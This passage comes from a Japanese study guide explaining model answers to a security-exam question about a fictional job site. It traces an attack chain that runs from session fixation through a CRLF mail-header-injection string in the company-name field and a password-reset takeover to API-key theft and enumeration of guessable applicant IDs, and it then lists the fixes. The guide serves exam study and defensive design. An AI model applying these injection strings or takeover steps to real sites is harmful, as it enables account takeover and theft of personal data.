| `Cache-Control: no-store`                 | 機微情報のキャッシュ防止     |

> **落とし穴**：eを「HTTPSで通信を暗号化する」と書かない。暗号化するのはTLSであって、HSTSの効果は**HTTPSの使用を強制すること**。fを「MIMEタイプを検査する」と書かない。効果は**Content-Typeヘッダーで指定したものを強制適用する**こと。

---

### 設問2　空欄g・h　図Dの攻撃手順

> **設問2**　図4中の4章にある図D中の　**g**　，　**h**　に入れる攻撃手順を答えよ。
>
> （4.1 想定される攻撃と被害）攻撃者が、セッションフィクセーション脆弱性を悪用するだけでも求職者属性情報を窃取することができるが、図Dの順序で攻撃をした場合、**不審なメールが求人企業に届かないので、攻撃に気付かれることなく**、WebAPIを悪用して、**より多くの求職者属性情報を窃取することができる**。
>
> （図D より多くの求職者属性情報の窃取につながる攻撃）
> (1) 図Aの手順で、Mサイトに不正にログインする。ただし、図Aの手順1で入手するメールアドレスは、**WebAPIの利用権限をもつ求人企業**のものである。
> (2) **g**
> (3) 画面09で、メールアドレスに攻撃者のメールアドレスを入力して、変更ボタンをクリックする。
> (4) 別の端末から、画面01でPW再設定ボタンをクリックし、(1)で不正にログインした利用者IDに対する一連のパスワード再設定処理を行う。
> (5) 再設定後のパスワードでログインする。
> (6) **h**
> (7) WebAPIの機能を利用して、多数の求職者属性情報を窃取する。

**解答**

| 欄    | 解答例                                                                                                                           |
| ----- | -------------------------------------------------------------------------------------------------------------------------------- |
| **g** | **画面09で、会社名に、図Cの `abc@example.com` を攻撃者のメールアドレスに<br>変更した文字列を入力して変更ボタンをクリックする。** |
| **h** | **画面04からの一連の操作において、画面05又は画面07で再設定後のパスワードを<br>入力して、WebAPIキーを確認又は発行する。**         |

**解説**

#### 空欄g：メールヘッダーインジェクションで「通知メール」を横取りする

**本文の根拠（2.2.2 メールヘッダーインジェクション）**

図B（脆弱性を検出した手順）：

> 手順1：**画面09の会社名に図Cの検査文字列を入力して変更ボタンをクリックする。**
> 手順2：画面11でOKボタンをクリックする。
> 手順3：画面03でプロパティ変更ボタンをクリックして、再度、画面09を表示する。
> 手順4：画面09でメールアドレスに `xyz@example.com` を入力して変更ボタンをクリックする。

図C 検査文字列：`●●株式会社%0D%0ATo:abc@example.com%0D%0A%0D%0A`

表C メール(あ)の内容：

| 位置                         | 内容                                                     |
| ---------------------------- | -------------------------------------------------------- |
| メール(あ)のヘッダー部の末尾 | `Subject: ●●株式会社`<br>`To:abc@example.com`            |
| メール(あ)のボディ部の冒頭   | `様のメールアドレス変更のお知らせ`<br>`To: <本来の宛先>` |

> 図Bの手順で操作を行ったところ、メール(あ)が **`abc@example.com` だけに送信され、本来の宛先である変更前のメールアドレスには送信されなかった。**

**メールヘッダーインジェクションの仕組み**

```text
入力値： ●●株式会社%0D%0ATo:abc@example.com%0D%0A%0D%0A
                    ↑                        ↑
            %0D%0A = CR+LF（改行）        %0D%0A%0D%0A = 空行
                                        ＝ ヘッダー部の終わり

【生成されるメール】
Subject: ●●株式会社          ← 会社名がSubjectに使われている
To: abc@example.com           ← 注入されたヘッダー
                              ← 空行（ここからボディ）
様のメールアドレス変更のお知らせ
To: <本来の宛先>              ← 本来のToがボディに落ちた
```

改行コードを注入することで、**新しいヘッダーを追加**し、さらに空行で**ヘッダー部を強制終了**させる。その結果、本来の `To:` ヘッダーが**ボディの一部として扱われ、宛先として機能しなくなる**。

**なぜこの手順が必要なのか（攻撃の核心）**

図3 注1：

> 画面09でメールアドレスを変更した場合の画面遷移である。画面遷移の際、Mサイトから、**変更前のメールアドレスに、確認用URLが記載されたメール(あ)を送信する**。利用者がメール(あ)に記載された確認用URLにアクセスすると、変更を反映し、画面11を表示するとともに、Mサイトから、**変更前及び変更後のメールアドレスに、変更内容が記載されたメールを送信する**。

```mermaid
flowchart TD
  X["攻撃者が画面09で<br/>メールアドレスを変更しようとする"] --> Y{"メールヘッダー<br/>インジェクションを<br/>先に仕掛けたか？"}
  Y -->|"❌ 仕掛けていない"| N1["確認用メール(あ)が<br/><b>正規の担当者に届く</b>"]
  N1 --> N2["不審なメールで<b>攻撃が発覚する</b>"]
  Y -->|"✅ 仕掛けた（空欄g）"| O1["To: が攻撃者のアドレスに差し替えられ、<br/><b>正規の担当者には届かない</b>"]
  O1 --> O2["攻撃者が確認用URLにアクセスして変更を完了<br/><b>気付かれない</b>"]
  style N2 fill:#faa
  style O2 fill:#aaf
```

つまり空欄gは、**(3)でメールアドレスを変更する前に、通知メールの宛先を乗っ取っておく**ための布石。4.1の「**不審なメールが求人企業に届かないので、攻撃に気付かれることなく**」という記述がこれを指している。

**なぜメール(い)では検出されなかったのか**：2.2.2 に「この脆弱性は、メール(あ)について検出された。なお、**メール(い)では、この脆弱性は検出されなかった**」とある。メール(い)はPW再設定用メール（画面14で利用者IDを入力して送信）で、**会社名のような自由入力値がヘッダーに使われない**ため。

#### 空欄h：APIkeyの確認又は発行

**本文の根拠（図3 画面遷移）**

```text
画面03 求人企業マイページ ─(オ)→ 画面04 APIkey管理
                                    ├ APIkey確認 ─(ク)→ 画面05 PW再確認(1) ─(コ)→ 画面06 APIkey一覧
                                    └ APIkey発行 ─(ケ)→ 画面07 PW再確認(2) ─(シ)→ 画面08 APIkey発行
```

画面05・画面07は **PW（パスワード）の再確認画面**。つまり **APIkeyを見る／作るにはパスワードが必要**。

**なぜ(4)(5)でパスワードを再設定する必要があったのか**

```mermaid
flowchart TD
  A["(1) セッションフィクセーションで<br/><b>ログイン状態</b>は奪えた"] --> B{"APIkeyを取得したい"}
  B --> C["画面04 → 画面05/07<br/><b>PWの再確認</b>が必要"]
  C --> D["しかし攻撃者は<b>パスワードを知らない</b>"]
  D --> E["(3) メールアドレスを攻撃者のものに変更<br/>（g で通知を握りつぶし済み）"]
  E --> F["(4) パスワード再設定を実行<br/>→ 再設定メールは攻撃者に届く"]
  F --> G["(5) 新パスワードでログイン"]
  G --> H["(6) <b>新パスワードでPW再確認を突破し、<br/>APIkeyを確認または発行</b>"]
  H --> I["(7) WebAPIで多数の求職者属性情報を窃取"]
  style D fill:#faa
  style H fill:#aaf
  style I fill:#faa
```

セッションフィクセーションで得られるのは**セッションだけ**。パスワードは分からない。そこで、

1. メールアドレスを攻撃者のものに書き換える（(3)）
2. パスワード再設定を実行（(4)）→ 再設定用URLは**攻撃者のメールアドレス**に届く
3. 任意のパスワードを設定してログイン（(5)）
4. **そのパスワードでPW再確認を通過し、APIkeyを入手**（(6)＝空欄h）

**なぜ「確認又は発行」の両方を書くのか**：図2 4(2)「**一つの利用者IDに対して複数のAPIkeyを発行できる**」。既存のAPIkeyを画面06で確認してもよいし、画面08で新規発行してもよい。どちらでも目的は達成できる。

**+α：WebAPIを使うと「より多くの」情報が取れる理由**

| 手段                                           | 取得できる範囲                                                  |
| ---------------------------------------------- | --------------------------------------------------------------- |
| 画面02の「応募者確認」<br>「問合せ確認」ボタン | **当該企業に応募・問合せをした求職者**のみ                      |
| **WebAPI 2(3)**                                | **任意の求職者IDを指定して求職者属性情報を取得**<br>← ★制限なし |

図2 4(1)は「利用契約で認めている求職者属性情報の利用範囲は、当該企業への問合せ又は当該企業への応募それぞれに関する対応だけである」と**契約上は制限している**が、**システム上は任意の求職者IDを指定できてしまう**。これが設問3の改善方針案につながる。

> **落とし穴**：gを「メールヘッダーインジェクションを行う」だけで済ませない。**どの画面の／どの項目に／何を入力するか**（画面09の会社名に、図Cの検査文字列のアドレスを攻撃者のものに変えたもの）を具体的に書く。hも「APIkeyを取得する」だけでなく**再設定後のパスワードを入力して**という要素を入れる。

---

### 設問3　空欄i〜ℓ　仕様の改善の方針案

> **設問3**　**あなたがこの診断を担当したとして**、図4中の5章の表F中の　**i**　，　**j**　及び表G中の　**k**　，　**ℓ**　に記述する内容を答えよ。なお、複数の改善の方針案がある場合は、**被害を防ぐ効果が最も高いもの**を答えよ。
>
> （表F WebAPIの仕様の改善の方針案）項番1：仕様の改善の方針案＝**i**／改善すべき理由＝**j**
> （表G Webアプリケーションプログラムの求人企業向け機能の仕様の改善の方針案）項番1：仕様の改善の方針案＝**k**／改善すべき理由＝**ℓ**

**解答（IPAはそれぞれ3案ずつ提示。①〜③がWebAPI＝表F、④〜⑥がWebアプリ＝表G）**

**表F（WebAPI）**

| 案  | i：仕様の改善の方針案                                                                                | j：改善すべき理由                                                                                                              |
| --- | ---------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------ |
| ①   | **求職者IDが推測困難なものに<br>なるように、求職者IDの<br>生成方法を変更する。**                     | **APIkeyが窃取された場合、当該求人企業への<br>問合せ又は応募をした求職者の情報漏えい<br>だけに被害を軽減することができるから** |
| ②   | **WebAPIのアクセス元IPアドレス<br>を限定して接続を許可するよう<br>に変更する。**                     | **WebAPIへの第三者による不正なアクセスを<br>防ぐことができるから**                                                             |
| ③   | **WebAPIで取得できる求職者属性<br>情報は、個人を特定できないもの<br>だけに限定するように変更する。** | **不正にWebAPIが利用されても、個人を特定<br>できない情報の漏えいだけに被害を軽減する<br>ことができるから**                     |

**表G（Webアプリケーションプログラムの求人企業向け機能）**

| 案  | k：仕様の改善の方針案                                                                                                  | ℓ：改善すべき理由                                                        |
| --- | ---------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| ④   | **ログインの認証を、多要素認証<br>に変更する。**                                                                       | **アカウントの乗っ取りを防ぐことが<br>できるから**                       |
| ⑤   | **利用者ごとにアクセス元IP<br>アドレスを限定して接続を<br>許可するように変更する。**                                   | **第三者による不正なアクセスを防ぐことが<br>できるから**                 |
| ⑥   | **求人企業プロパティ変更において、<br>メールアドレス以外を変更した<br>場合でも、メールを送信するよう<br>に変更する。** | **不正に求人企業プロパティが変更された<br>場合に気付くことができるから** |

> **備考欄の注記**：「①〜③に限らず、**WebAPIに関する被害を軽減する仕様の改善方針案**が記述されていること」「④〜⑥に限らず、**Webアプリケーションプログラムに関する被害を軽減する仕様の改善方針案**が記述されていること」
> → **正解は1つではない**。方針案と理由が論理的に対応していれば可。

**解説**

#### ① 求職者IDの推測困難化

図2 注1：

> 求職者がMサイトに利用者登録をした**年月日の8桁の数字**の後ろに、**日ごとに 000001 から登録順に割り当てられる6桁の数字**を加えた**数字14桁の文字列**である。

```text
20240401 000001
    ↑       ↑
 登録年月日  その日の連番（000001から順番）
```

**完全に推測可能**。攻撃者は「2024年4月1日の1番目」「2番目」…と順に指定すれば、**全求職者の属性情報を総当たりで取得できる**。

```mermaid
flowchart LR
  A["WebAPI 2(3)<br/>任意の求職者IDを指定して<br/>求職者属性情報を取得"] --> B["求職者ID＝年月日8桁＋連番6桁<br/><b>完全に推測可能</b>"]
  B --> C["総当たりで<b>全求職者</b>の<br/>属性情報を取得できる"]
  C --> D["<b>改善①</b><br/>推測困難な値に変更<br/>→ 正規に取得したIDの分しか取れない"]
  style C fill:#faa
  style D fill:#aaf
```

> **R6春期 問3 設問3(1)（order-code の総当たり）と同じ構図**。「**IDの推測可能性**」は頻出論点。

#### ② WebAPIのアクセス元IPアドレス制限

図2 3(2)：「WebAPIを利用する際の HTTP Request 内の APIkey が、**発行済みのものであり、かつ、有効期間内であるか確認することで、正規利用者であるかどうかを確認する**」

→ **APIkeyだけが唯一の認証手段**。窃取されれば誰でも、どこからでも使える。

求人企業は**アプリケーションプログラムからHTTPSで呼び出す**（冒頭）ので、**送信元IPは固定できるはず**。IP制限を加えれば、APIkeyが漏れても攻撃者の環境からは使えない。

#### ③ 取得できる情報を個人特定不能なものに限定

冒頭：「求職者は、**氏名、自宅住所、電話番号、勤務先など**の求職者属性情報……を入力する」

→ マッチングの目的には「勤務先」「希望職種」等があれば足り、**氏名・自宅住所・電話番号までAPIで返す必要があるか**は疑問。**最小権限・データ最小化の原則**。

#### ④ 多要素認証

図Aの攻撃は最終的に**アカウントの乗っ取り**（パスワード再設定→ログイン）に至る。多要素認証があれば、

- セッションフィクセーションでセッションを奪っても、**MFAを通過していないセッション**として扱える
- パスワードを再設定しても、**第2要素がなければログインできない**

**被害を防ぐ効果が最も高い**という設問の条件に、最もよく合致する案。

#### ⑤ 利用者ごとのアクセス元IP制限

図Aの手順7で攻撃者が別端末からアクセスしている点、図D(4)で「**別の端末から**」パスワード再設定を行っている点を直接潰せる。

#### ⑥ プロパティ変更時の通知メール

図3 注2：「画面09で**メールアドレス以外だけを変更した場合の画面遷移**である」（＝**メールを送信しない**）

| 操作                                       | 通知メール                       |
| ------------------------------------------ | -------------------------------- |
| メールアドレスを変更                       | メール(あ)＋変更通知メールを送信 |
| **メールアドレス以外（会社名など）を変更** | **送信しない** ← ★               |

図Dの手順(2)（空欄g）は**会社名の変更**なので、**通知メールが一切飛ばない**。ここで通知していれば、担当者が「会社名が勝手に変わった」と気づけた。

**+α：この設問の本質 — 「複数の軽微な脆弱性の連鎖」**

出題趣旨にこう書かれている。

> **脆弱性は一つ一つが軽微でも、複数組み合わせて悪用されると、重大な被害につながることがある。** また、診断ツールで検出される脆弱性以外にも、想定される攻撃に対して、セキュリティ対策が不足しているといった脆弱性もある。診断者がこういった脆弱性も報告に含めることで、その後、システムのセキュリティが大きく向上することがある。

```mermaid
flowchart LR
  V1["セッション<br/>フィクセーション"] --> C["<b>連鎖</b>"]
  V2["メールヘッダー<br/>インジェクション"] --> C
  V3["推測可能な<br/>求職者ID"] --> C
  V4["APIkeyのみの認証"] --> C
  V5["プロパティ変更の<br/>通知なし"] --> C
  C --> R["<b>多数の求職者属性情報の窃取</b><br/>（気付かれずに）"]
  style C fill:#faa
  style R fill:#faa
```

- V1・V2 は**診断ツールでも検出される脆弱性**（表A）
- V3・V4・V5 は**ツールでは検出されない「仕様の問題」**（5章 参考意見）

だからこそ、5章が「**弊社の知見に基づく参考意見**」として設けられ、「表Aと表Eの脆弱性を修正したとしても、インターネットからの攻撃によって被害が発生するおそれがある」と述べている。

**答案作成の指針**

| 観点           | 書き方                                                                                |
| -------------- | ------------------------------------------------------------------------------------- |
| 方針案（i・k） | **「〜を〜するように変更する。」** という<br>仕様変更の形で書く                       |
| 理由（j・ℓ）   | **「〜できるから」「〜から」** で終える。<br>**防ぐ**のか**軽減する**のかを書き分ける |
| 対応関係       | i と j、k と ℓ が**論理的に対応**していること<br>（方針案が理由を実現していること）   |
| 表Fと表Gの区別 | 表F＝**WebAPI**の仕様、<br>表G＝**Webアプリの求人企業向け機能**の仕様                 |

> **落とし穴**：表Gに「WebAPIのIP制限」と書かない（表Fの領域）。また「セッションIDの再発行」などは**2章で既に指摘済み**なので、5章では**仕様レベルの改善**を書く。設問が「**あなたがこの診断を担当したとして**」と問うている＝**診断者としての提案力**が問われている。

---

### 問4の学習ポイントまとめ

**検出された脆弱性と修正方法**

| 脆弱性                                 | 成立原因                                                                                     | 修正方法                                                  |
| -------------------------------------- | -------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| **セッション<br>フィクセーション**     | ログイン（画面遷移（イ））の前後で<br>**sessionIDが変わらない**。<br>hidden フィールドで管理 | **使用済みIDを無効化した上で、<br>新しいsessionIDを発行** |
| **メールヘッダー<br>インジェクション** | 画面09の**会社名**が検証されずに<br>メールヘッダーに使われる                                 | 改行コードを許可しない<br>（ヘッダー出力APIを使う）       |
| **HTTPヘッダーの不備**                 | CSP / HSTS /<br>X-Content-Type-Options が未出力                                              | 各ヘッダーを設定<br>（**保険的対策**）                    |
| TLS 1.1 が利用可能                     | 危殆化したプロトコルの有効化                                                                 | TLS 1.2 以上に限定                                        |
| HTTPサーバの<br>バージョンの露出       | レスポンスヘッダーに<br>バージョン出力                                                       | バージョン情報を隠蔽                                      |

**仕様レベルの問題（ツールでは検出されない）**

| 問題                                             | 改善方針                               |
| ------------------------------------------------ | -------------------------------------- |
| **求職者IDが推測可能**<br>（年月日8桁＋連番6桁） | 推測困難な値に変更                     |
| **APIkeyだけで認証**（有効期間14日）             | アクセス元IP制限、取得情報の限定       |
| **メールアドレス以外の変更時に通知しない**       | 全てのプロパティ変更で通知メールを送信 |
| ログインが**単要素認証**                         | 多要素認証への変更                     |

---

## 全体の学習ポイント

### 4問に共通する視点

**① 「気付かれない」ための細工を見抜く**

| 問  | 攻撃者が発覚を防いだ方法                                                                                                 |
| --- | ------------------------------------------------------------------------------------------------------------------------ |
| 問1 | マルウェア対策ソフトを停止（アラートを出させない）、<br>s.rar を削除（痕跡消去）、q.ps1 をメモリ上に展開（ファイルレス） |
| 問3 | 画面遷移は正常に進む（submit イベントに便乗）、<br>GETで送るので攻撃者側にアプリ不要                                     |
| 問4 | **メールヘッダーインジェクションで通知メールを横取り**<br>（図Dの核心）、会社名の変更は通知メールが飛ばない              |

**② ログ・レポートを「読む」力**

| 問  | 読むべきもの                          | 読み方                                                                                            |
| --- | ------------------------------------- | ------------------------------------------------------------------------------------------------- |
| 問1 | time.csv / net2.csv /<br>プロキシログ | **時系列を攻撃フェーズにマッピング**する。<br>810MB／0.1MB の違いで持出しとビーコンを<br>見分ける |
| 問2 | DMARCレポート（rua）                  | **認証に失敗している正規の送信元**を洗い出す                                                      |
| 問3 | Webサーバの<br>アクセスログ           | **ステータスコード**（204成功／405拒否）で<br>成否を判別                                          |
| 問4 | 診断報告書<br>（表B のsessionID）     | **同じ値が並んでいること**自体が異常                                                              |

**③ 影響範囲の特定（誰が被害者か）**

| 問  | 特定の方法                                                                         |
| --- | ---------------------------------------------------------------------------------- |
| 問1 | PC-A・PC-C・filesv 上の、**`ad01\user019` でアクセス可能なファイル**               |
| 問3 | 影響期間（**キャッシュ破棄まで**）に<br>**`/shopping` にアクセスしたアカウント名** |
| 問4 | WebAPIで取得可能な**全求職者**（求職者IDが推測可能なため）                         |

**④ 「仕様どおり」でも脆弱なものがある**

| 問  | 仕様上は正しいが危険なもの                                            |
| --- | --------------------------------------------------------------------- |
| 問2 | メーリングリストのSubject書換え（サービスの正常な機能）<br>→ DKIM失敗 |
| 問3 | hidden パラメータでの支払方法の受け渡し → 改ざん耐性なし              |
| 問4 | **求職者IDの採番規則**（年月日＋連番）→ 総当たり可能                  |

### 答案作成の型

| 指示                       | 書くべき要素                                                                                   |
| -------------------------- | ---------------------------------------------------------------------------------------------- |
| 「**調査の内容**」         | **どのログから／どんな条件で／何を探すか**<br>（問1 設問1(6)(7)）                              |
| 「**対策の内容**」         | **どの機器・サービスで／誰に対して／何を／どう設定するか**<br>（問1 設問1(5)の3要素）          |
| 「**〜を含めて具体的に**」 | 指定された要素を必ず全部入れる<br>（問2 設問5(2)の「Sサービスへの登録内容とYサービスの仕様」） |
| 「**図示せよ**」           | **変わる部分と変わらない部分を両方描く**（問3 設問2(1)）                                       |
| 自由記述（改善方針案）     | **「〜するように変更する」＋「〜できるから」**の型<br>（問4 設問3）                            |

### 令和6年度秋期の出題傾向

| 問  | 中心テーマ             | 難度の勘所                                                                                   |
| --- | ---------------------- | -------------------------------------------------------------------------------------------- |
| 問1 | インシデントレスポンス | 表3のログから**攻撃フェーズを時系列で再構成**する。<br>設問数9で記述も多いが、知識依存は低い |
| 問2 | SPF/DKIM/DMARC         | **送信ドメイン認証の仕組みを正確に理解**していないと<br>設問5(2)が書けない。知識依存が高い   |
| 問3 | Webスキミング          | **ECMAScriptとHTMLを読む**力。<br>設問2(1)の図示は珍しい出題形式                             |
| 問4 | セキュリティ診断       | **複数の脆弱性の連鎖**を追う。<br>設問3は自由記述で、診断者としての提案力が問われる          |

**問1と問3は読解中心、問2と問4は知識＋構成理解が要る。**同じ年度の春期と比べると、秋期は**ログ・レポートという「生の資料」を読ませる**比重が高い。
